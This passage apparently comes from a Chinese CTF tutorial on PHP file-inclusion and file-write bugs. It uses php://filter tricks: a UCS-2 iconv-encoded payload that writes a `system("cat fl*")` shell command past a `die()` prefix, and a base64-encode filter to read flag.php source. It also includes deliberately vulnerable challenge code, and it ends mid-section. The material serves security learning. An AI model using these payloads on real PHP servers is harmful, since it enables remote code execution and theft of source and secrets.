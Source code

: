   把 Base64 和 Rot13 过滤了，根据 [PHP 支持的字符编码](https://www.php.net/manual/zh/mbstring.supported-encodings.php)，发现 PHP 支持的字符编码还是挺多的，我们这里随便选择一个进行使用

  ```
  GET: ?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php
  POST: contents=?<hp pystsme"(ac tlf"*;)
  ```

  关于代码生成，注意 `ucs-2` 编码的字符串位数一定要是偶数，否则会报错，`ucs-4` 编码的字符串位数一定要是 4 的倍数，否则会报错

  ```php
  <?php 
  echo iconv("UCS-2LE","UCS-2BE",'<?php system("cat fl*");');
  // ?<hp pystsme"(ac tlf"*;)
  ```

  **base64**

  ```php
  # index.php
  <?php
    highlight_file(__FILE__);
    require($_GET['filename']);
  ?>
  ```

  ---

  ```php
  # flag.php
  <?php
  
  // $flag = 'flag{th14_1s_m3_fl4g}';
  echo '答案在注释里，自己找吧';
  ```

  我们可以利用 `php://filter` 伪协议来读取文件内容，需要注意的是，`php://filter` 伪协议如果不指定过滤器的话，默认会解析 PHP 代码，所以我们需要指定 `convert.base64-encode` 过滤器来对文件内容进行编码

  ```php
  php://filter/read=convert.base64-encode/resource=flag.php
  ```

  **rot13**

  ```php
  <?php
  if(isset($_GET['file'])){
      $file = $_GET['file'];
      $content = $_POST['content'];
      $file = str_replace("php", "???", $file);
      $file = str_replace("data", "???", $file);
      $file = str_replace(":", "???", $file);
      $file = str_replace(".", "???", $file);
      file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
      
  }else{
      highlight_file(__FILE__);
  }
  ```
